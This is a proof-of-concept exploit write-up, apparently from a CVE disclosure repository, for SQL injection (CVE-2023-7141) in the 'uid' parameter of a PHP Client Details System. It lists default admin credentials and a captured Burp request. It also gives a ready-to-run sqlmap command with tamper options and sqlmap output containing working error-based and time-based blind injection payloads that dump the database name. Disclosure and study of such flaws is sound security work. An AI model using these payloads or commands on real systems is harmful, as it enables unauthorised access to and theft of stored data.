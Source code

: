 # CVE-2023-7141_Client_Details_System-SQL_Injection_5
+ **Exploit Title:** CVE-2023-7141_Client_Details_System-SQL_Injection_5
+ **Date:** 2023-26-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/client-details-system-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/01/CLIENT_DETAILS_SYSTEM_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-2023-7141

## References: 
+ **CVE-2023-7141:** https://vuldb.com/?id.249144
+ https://www.cve.org/CVERecord?id=CVE-2023-7141
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-7141

## Description:
Client Details System 1.0 allows SQL Injection via parameter 'uid' in "/clientdetails/admin/update-clients.php?uid=3". Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the Admin Panel: "http://localhost/clientdetails/admin/"
+ Fill User Id and Password with `admin`:`client123` and log in.
+ Manage Users: "http://localhost/clientdetails/admin/manage-users.php"
+ Then click Edit button for any user: "http://localhost/clientdetails/admin/update-clients.php?uid=3"
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Captured Burp request:
```
GET /clientdetails/admin/update-clients.php?uid=3 HTTP/1.1
Host: localhost
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-us,en;q=0.5
Cache-Control: no-cache
Cookie: PHPSESSID=p5mgq2eci66sik6s94eakcjub9
Referer: http://localhost/clientdetails/admin/clientview.php
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36

```

+ Use sqlmap to exploit. In sqlmap, use 'uid' parameter to dump the database. 
```
python sqlmap.py -r r.txt -p uid --risk 3 --level 5 --threads 1 --random-agent tamper=between,randomcase --proxy="http://127.0.0.1:8080" --dbms mysql --batch --current-db
```

```
---
Parameter: uid (GET)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: uid=3'+(SELECT 0x6c464a42 WHERE 4357=4357 AND (SELECT 4176 FROM(SELECT COUNT(*),CONCAT(0x7178626271,(SELECT (ELT(4176=4176,1))),0x7170626271,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))+'

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: uid=3'+(SELECT 0x6b5a6545 WHERE 9285=9285 AND (SELECT 7542 FROM (SELECT(SLEEP(5)))GfcH))+'
---
[18:14:00] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.1.6, Apache 2.4.53
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[18:14:01] [INFO] fetching current database
[18:14:01] [INFO] retrieved: 'loginsystem'
current database: 'loginsystem'
```

+ current database: `loginsystem`
![5](https://github.com/h4md153v63n/CVEs/assets/5091265/107593ab-0372-4e02-8ce8-727a17c95d5a)
